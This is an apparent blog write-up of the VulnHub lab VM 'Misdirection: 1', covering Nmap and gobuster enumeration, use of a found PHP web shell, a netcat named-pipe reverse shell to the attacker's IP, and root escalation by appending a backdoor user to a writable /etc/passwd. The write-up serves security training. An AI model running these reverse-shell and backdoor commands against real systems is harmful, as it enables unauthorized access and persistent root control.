 [VulnHub] Misdirection: 1
===============
date: 11/Oct/2019
summary: This is the summary for an awesome post.
tags: vulnhub, writeup

## Overview
This is a writeup for VulnHub VM [Misdirection: 1](https://www.vulnhub.com/entry/misdirection-1,371/). Here's an overview of the `enumeration` → `exploitation` → `privilege escalation` process:

![writeup.overview.killchain](/static/files/posts_vulnhub_misdirection1/killchain.png)

## Phase #1: Enumeration
1\. Here's the Nmap scan result:  
```
# Nmap 7.70 scan initiated Fri Oct 11 12:13:32 2019 as: nmap -vv --reason -Pn -sV -sC --version-all -oN /root/toolbox/writeups/vulnhub.misdirection1/results/192.168.92.187/scans/_quick_tcp_nmap.txt -oX /root/toolbox/writeups/vulnhub.misdirection1/results/192.168.92.187/scans/xml/_quick_tcp_nmap.xml 192.168.92.187
Nmap scan report for 192.168.92.187
Host is up, received arp-response (0.00080s latency).
Scanned at 2019-10-11 12:13:33 PDT for 25s
Not shown: 996 closed ports
Reason: 996 resets
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 64 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 ec:bb:44:ee:f3:33:af:9f:a5:ce:b5:77:61:45:e4:36 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCkS5yl+Dpb7vsMGbzAHXBYrVSUNTh4kYGh8zajM3ZujG0XHLvgkW7xJ6F/meai9IrCB5gTq7+tTsn+fqNk0cAZugz4h+vwm5ekXe5szPPHNxNUlKuNAQ0Rch9k7jT/2pWjtsE5iF6yFlh1UA2vBKqrTWVU5vrGWswdFRMWICKWiFXwl1Tv93STPsKHYoVbq74v2y1mVOLn+3JNMmRNCBFqh8Z2x+1DTep0YY8vIV325iRK5ROKCJAPeyX33uoxQ/cYrdPIS+Whs9QX0C+W343Hf2Ypq93h3/g3NNm54LvZdE6X2vTUcUHGdvK2gU+dWQOiDhCpMDv3wiEAwGlf87P5
|   256 67:7b:cb:4e:95:1b:78:08:8d:2a:b1:47:04:8d:62:87 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBM+YEivOAqHPDlFWduSuOjAjuJtfC9v/KW2uYB85gxQuibGJQZhFPcxwPEUf7UvQ/a5fr/keKYF2Kdld6gO44jY=
|   256 59:04:1d:25:11:6d:89:a3:6c:6d:e4:e3:d2:3c:da:7d (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIFHxbfiqinvu3cV7JoKrOF3w64zk+0N0h+/2nu+Z20Mk
80/tcp   open  http    syn-ack ttl 64 Rocket httpd 1.2.6 (Python 2.7.15rc1)
| http-methods:
|_  Supported Methods: GET POST OPTIONS
|_http-server-header: Rocket 1.2.6 Python/2.7.15rc1
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
3306/tcp open  mysql   syn-ack ttl 64 MySQL (unauthorized)
8080/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.29 ((Ubuntu))
| http-methods:
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
MAC Address: 00:0C:29:F0:F4:AE (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Oct 11 12:13:58 2019 -- 1 IP address (1 host up) scanned in 26.69 seconds
```

2\. We start with `8080/tcp` service. There are some interesting hits from `gobuster` scan:  
```
http://192.168.92.187:8080/debug (Status: 301)
http://192.168.92.187:8080/shell (Status: 301)
http://192.168.92.187:8080/wordpress (Status: 301)
```

3\. Upon checking out the `/debug` url, we find that it has a PHP web shell called [p0wny-shell](https://github.com/flozz/p0wny-shell). This is a huge convenience as we can now spawn a reverse shell and get fully interactive access:  

![writeup.enumeration.steps.3.1](/static/files/posts_vulnhub_misdirection1/screenshot00.png)  

### Findings
#### Open Ports:
```
22/tcp    |  ssh    |  OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp    |  http   |  Rocket httpd 1.2.6 (Python 2.7.15rc1)
3306/tcp  |  mysql  |  MySQL (unauthorized)
8080/tcp  |  http   |  Apache httpd 2.4.29 ((Ubuntu))
```
#### Files
```
http://192.168.92.187:8080/debug
```
#### Users
```
ssh: root, brexit
```

## Phase #2: Exploitation
1\. We use the web shell to spawn a Bash reverse shell and catch it using a local `netcat` listener:  
```
nc -nlvp 443
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 192.168.92.183 443 >/tmp/f
```

![writeup.exploitation.steps.1.1](/static/files/posts_vulnhub_misdirection1/screenshot01.png)  

![writeup.exploitation.steps.1.2](/static/files/posts_vulnhub_misdirection1/screenshot02.png)  

## Phase #2.5: Post Exploitation
```
www-data@misdirection> id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@misdirection>  
www-data@misdirection> uname
Linux misdirection 4.15.0-50-generic #54-Ubuntu SMP Mon May 6 18:46:08 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
www-data@misdirection>  
www-data@misdirection> ifconfig
ens33:  flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.92.187  netmask 255.255.255.0  broadcast 192.168.92.255
        inet6 fe80::20c:29ff:fef0:f4ae  prefixlen 64  scopeid 0x20<link>
        ether 00:0c:29:f0:f4:ae  txqueuelen 1000  (Ethernet)
        RX packets 847916  bytes 329992802 (329.9 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 624984  bytes 125640093 (125.6 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
www-data@misdirection>  
www-data@misdirection> users
root
brexit
```

## Phase #3: Privilege Escalation
1\. We find that the user `brexit` can run `bash` with `sudo` privileges. We also find that the `/etc/passwd` file has write permissions for group `brexit`. Combining these two, we need to first switch to user `brexit` and then modify the `/etc/passwd` file to add a new entry for a backdoor `root` user:  
```
sudo -l
  User www-data may run the following commands on localhost:
    (brexit) NOPASSWD: /bin/bash
ls -la /etc/passwd
  -rwxrwxr-- 1 root brexit 1617 Jun  1 01:17 /etc/passwd
sudo -u brexit bash
mkpasswd -m sha-512 password saltsalt
  $6$saltsalt$qFmFH.bQmmtXzyBY0s9v7Oicd2z4XSIecDzlB5KiA2/jctKu9YterLp8wwnSq.qc.eoxqOmSuNp2xS0ktL3nh/
echo -e "hacker:\$6\$saltsalt\$qFmFH.bQmmtXzyBY0s9v7Oicd2z4XSIecDzlB5KiA2/jctKu9YterLp8wwnSq.qc.eoxqOmSuNp2xS0ktL3nh/:0:0:hacker:/root:/bin/bash" >>/etc/passwd
su hacker
```

![writeup.privesc.steps.1.1](/static/files/posts_vulnhub_misdirection1/screenshot03.png)  

![writeup.privesc.steps.1.2](/static/files/posts_vulnhub_misdirection1/screenshot04.png)  

![writeup.privesc.steps.1.3](/static/files/posts_vulnhub_misdirection1/screenshot05.png)  

![writeup.privesc.steps.1.4](/static/files/posts_vulnhub_misdirection1/screenshot06.png)  

![writeup.privesc.steps.1.5](/static/files/posts_vulnhub_misdirection1/screenshot07.png)  

![writeup.privesc.steps.1.6](/static/files/posts_vulnhub_misdirection1/screenshot08.png)  

![writeup.privesc.steps.1.7](/static/files/posts_vulnhub_misdirection1/screenshot09.png)  

2\. We can view the file `/root/root.txt` to get the flag and complete the challenge:  
```
cat /root/root.txt
```

![writeup.privesc.steps.2.1](/static/files/posts_vulnhub_misdirection1/screenshot10.png)  

## Loot
### Hashes
```
root:$6$PnbVvEMS$OcseJT8lZRrgrW1JBpHJ252SPRxS6Rkh3oVBkrbRBZgHBD1wArL6FcyO5daqaon7waFKwSqbg5fIjFgzU........................
brexit:$6$51s7qYVw$XbTfXEV2acHRp9vmA7VTxO35OLK9EGZJzDGF9nYaukD3eppHsn2P1ESMr.9rRn/YYO70uiUskfkWP0LyR........................
```
### Flags
```
0d2c6222bfdd3701e0fa12a9a.......
```

## References
* <https://www.vulnhub.com/entry/misdirection-1,371/>  
* <https://download.vulnhub.com/media/misdirection/Misdirection-Walkthrough.pdf>  
